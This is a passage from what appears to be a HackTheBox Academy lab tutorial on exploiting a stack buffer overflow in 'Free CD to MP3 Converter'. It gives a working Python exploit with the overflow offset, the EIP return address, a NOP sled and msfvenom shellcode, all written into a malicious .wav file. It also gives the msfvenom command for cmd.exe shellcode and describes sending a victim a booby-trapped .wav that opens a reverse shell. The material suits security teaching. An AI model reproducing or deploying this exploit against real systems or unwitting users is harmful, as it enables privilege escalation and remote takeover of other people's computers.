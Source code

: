 Code: python

```python
    with open('exploit.wav', 'wb') as f:
        f.write(payload)
```

Once we assemble all of these parts, our final `exploit()` function should look as follows:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

We can now run our code with `F5` in `IDLE` to generate the `exploit.wav` file. Once we do, we can run the `Free CD to MP3 Converter` program (we don't need to run it in `x32dbg`) and load our file to it:

![Calculator app open in Standard mode, displaying zero.](https://academy.hackthebox.com/storage/modules/89/win32bof_calc.jpg)

As we can see, our program did crash, but we successfully exploited it and ran our shellcode, which opened `calc.exe`.

### Gaining Code Execution

The final step would be to utilize this exploit to gain code execution. Since we are dealing with a local buffer overflow running in a machine we have user-level access to, we will usually use this exploit to escalate our privileges to the admin user if a local admin executed this program. Another way to utilize this is by writing a malicious `.wav` file that sends back a reverse shell. We would then share this malicious file with a user that uses this vulnerable application and ask them to encode our malicious `.wav` file. When they do, we would receive a reverse shell and gain control over their PC.

To do either of these options, all we have to do is change our shellcode to do something else. For local privilege escalation, we can use the same command we used for `calc.exe`, but use `CMD=cmd.exe` instead, as follows:

Jumping to Shellcode

```bash
mdn0x@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...SNIP...
```
